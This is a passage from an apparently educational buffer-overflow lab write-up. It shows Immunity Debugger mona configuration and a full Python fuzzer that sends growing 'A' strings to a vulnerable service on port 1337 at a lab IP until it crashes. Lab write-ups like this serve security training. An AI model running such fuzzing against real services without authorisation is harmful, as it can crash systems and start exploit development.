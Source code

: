 * We notice that it is running on port 1337
* So, why not connect to it from Kali on port 1337?

<figure><img src="../../../.gitbook/assets/image (8) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Mona Configuration

Place the following into the debugger window of Immunity:

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

* Create a file on Kali called <mark style="color:yellow;">00fuzzer.py</mark> with the following contents:

<pre><code><strong>#!/usr/bin/env python3
</strong>
import socket, time, sys

ip = "10.10.253.98"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
</code></pre>
